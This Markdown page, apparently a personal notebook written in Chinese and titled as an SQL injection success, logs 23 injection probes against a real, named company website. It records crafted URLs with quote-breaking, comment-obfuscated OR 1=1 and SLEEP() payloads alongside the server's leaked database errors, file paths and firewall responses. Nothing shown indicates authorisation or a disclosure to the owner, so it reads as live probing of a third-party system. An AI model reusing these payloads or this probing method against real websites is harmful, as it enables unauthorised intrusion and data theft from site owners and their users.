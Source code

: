 ```yaml
---
title: SQL Injection ls-design Success
description: SQL Injection ls-design Success
---
```


## 測試過程

1. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

2. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html')`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ')' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

3. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'))`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '))' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

4. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html%`

```
403 No Response Body
```

看起來無法注入 `%`

5. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'%20OR%20'1'%20=%20'1` (`' OR '1' = '1`)

```
Forbidden
You don't have permission to access this resource.

Additionally, a 403 Forbidden error was encountered while trying to use an ErrorDocument to handle the request.
```

看起來無法注入 `%20`

6. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'%25)` (`'%`)

<!-- ```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ')' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
``` -->

同 1.

7. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html%25%25`

```html
<script>
  location.href = "/news.html";
</script>
```

8. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'/**/OR/**/1=1--/**/123`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

9. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html')'`

```
Connection timed out Error code 522 (Cloudfare)
```

10. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html')'test'`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ')'test'' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

11. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html')'test`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ')'test' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

12. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html/**/`

頁面載入成功，但 CSS 跟 JS 載入失敗，所以畫面很醜

13. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html%2F**%2F`

```
Not Found
The requested URL was not found on this server.

Additionally, a 404 Not Found error was encountered while trying to use an ErrorDocument to handle the request.
```

14. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html**/`

<!-- ```html
<script>location.href='/news.html';</script>
``` -->

同 7.

15. https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'/**/OR/**/SLEEP(2)--/**/123

<!-- ```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
``` -->

同 8.，並且沒有延遲 5 秒，推測 `SLEEP(5)` 沒有執行成功

16. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html))`

<!-- ```html
<script>location.href='/news.html';</script>
``` -->

同 7.

17. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html''`

<!-- ```html
<script>location.href='/news.html';</script>
``` -->

同 7.

18. `https://www.ls-design.com.tw/123.html`

<!-- ```
Not Found
The requested URL was not found on this server.

Additionally, a 404 Not Found error was encountered while trying to use an ErrorDocument to handle the request.
``` -->

同 13.

19. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html',1)/**/OR/**/SLEEP(5)--/**/123`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1)/**/OR/**/SLEEP(5)--/**/123' AND meta_set = '1' AND meta_type = '1' AND met...' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

20. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.htmltest','test'`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''test'' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

21. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.htmltest',test`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'test' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

22. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.htmltest',test))`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'test))' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

23. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.htmltest'test))`

同 22.
